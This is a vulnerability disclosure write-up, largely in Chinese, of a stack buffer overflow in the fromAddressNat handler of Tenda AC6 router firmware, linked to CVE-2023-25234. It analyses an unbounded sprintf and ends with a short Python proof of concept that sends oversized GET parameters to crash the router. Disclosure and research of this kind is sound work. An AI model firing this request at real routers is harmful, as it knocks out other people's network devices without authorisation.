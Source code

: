 # ---_tenda_AC6_stack_overflow

## 漏洞描述

### 编号

无  
CVE-2023-25234 记录了 Tenda AC500 V2.0.1.9(1307)存在此问题，Tenda AC6 V15.03.05.19(latest) 也存在该问题，但暂时无CVE编号  
>CVE-2023-25234 Tenda AC500 V2.0.1.9(1307) is vulnerable to Buffer Overflow in function fromAddressNat via parameters entrys and mitInterface.  

### 设备信息&固件版本号

**Tenda AC6:**  
v15.03.05.09_multi ~ V15.03.05.19(latest)  
goahead framework  

### 漏洞类型

DoS  

### 危害

可访问路由器的攻击者无需凭证即可执行远程拒绝服务攻击  

## 复现流程

### 复现设备&固件

同CVE-2023-26976_tenda_AC6_stack_overflow  

### 固件下载&仿真

同CVE-2023-26976_tenda_AC6_stack_overflow  

### 漏洞分析

漏洞点在httpd服务中的fromAddressNat()  
路由/goform/addressNat  
将用户输入的`entrys/mitInterface`参数传入`v9/v8`，但使用`sprintf(s, "%s;%s", v9, v8)`时没有长度限制，又`s`为`char s[512]`，即在`sprintf()`时存在溢出  
![path](---_Tenda_AC6_stack_overflow.assets/2023-04-10-18-56-28.png)  
![path](---_Tenda_AC6_stack_overflow.assets/2023-04-10-18-57-06.png)  
>There is a stack-based buffer overflow vulnerability in function `fromAddressNat`.  
In function `fromAddressNat` it reads 2 user provided parameters `entrys` and `mitInterface` into `v9` and `v8`, and these two variables are passed into function `sprintf` without any length check, which may overflow the stack-based buffer `s`.  
![fromAddressNat](---_Tenda_AC6_stack_overflow.assets/2023-04-10-18-07-57.png)  
So by requesting the page `/goform/addressNat`, the attacker can easily perform a **Deny of Service Attack** or **Remote Code Execution** with carefully crafted overflow data.  

### 漏洞利用

get请求触发溢出  

```python
import requests

IP = "192.168.2.199" # 路由器ip
url = f"http://{IP}/goform/addressNat?"
url += "entrys=" + "s" * 0x200
url += "&mitInterface=" + "a" * 0x200

response = requests.get(url)
```

![Dos](---_Tenda_AC6_stack_overflow.assets/2023-04-10-18-11-00.png)  
